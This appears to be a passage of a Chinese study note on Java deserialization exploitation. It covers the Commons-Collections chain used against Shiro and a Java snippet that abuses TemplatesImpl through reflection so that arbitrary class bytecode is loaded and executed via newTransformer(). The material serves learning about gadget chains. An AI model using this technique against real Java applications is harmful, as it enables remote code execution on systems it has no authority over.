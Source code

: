注:在学习构造shiro的cc链的时候,shiro中TiedMapEntry第二个参数必须是要transform(key)的key,为什么这里可以乱传递一个呢,因为不管传递的是啥,只要ChainedTransformer开始transform,执行到`new ConstantTransformer(Runtime.class)`,就会被改成`Runtime.class`

### 动态类加载

ClassLoader中有一个defineClass方法,该方法可以从字节码文件加载类,如果能找到一个类既调用了defineClass方法又对类进行了实例化,那么就可以执行类中的静态代码块

ClassLoader中有好多defineClass方法,挨个findUsages,找到一个defineClass在其他包内不是private的调用

![image-20220314151530097](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220314151530097.png)

接着找,找到一个方法能进行实例化

![image-20220314152458340](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220314152458340.png)

在newTransformer这个public方法中调用了它,所以入口找到了,思路就是通过newTransformer



加载完成之后_class数组存储的就是通过字节码加载进来的类

```java
public static void main(String[] args) throws Exception{
        //H:\java\classTest\MyClass
        TemplatesImpl templates=new TemplatesImpl();
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates,"aaa");
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        byte[] code= Files.readAllBytes(Paths.get("H:\\java\\classTest\\MyClass.class"));
        byte[][] codes={code};
        bytecodes.set(templates,codes);

        /*Field transletIndex = templatesClass.getDeclaredField("_transletIndex");
        transletIndex.setAccessible(true);
        transletIndex.set(templates,0);*/
    	//这块是想多了,后面判断父类是不是指定的类的时候会对_transletIndex变量做出修改,现在改了也没用

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates,new TransformerFactoryImpl());

        templates.newTransformer();
```

大部分都很容易理解,就是后面有一个空指针异常的地方,会判断加载的class是不是继承了`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`类

```java
private static String ABSTRACT_TRANSLET
    = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
```

![image-20220314160724089](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220314160724089.png)
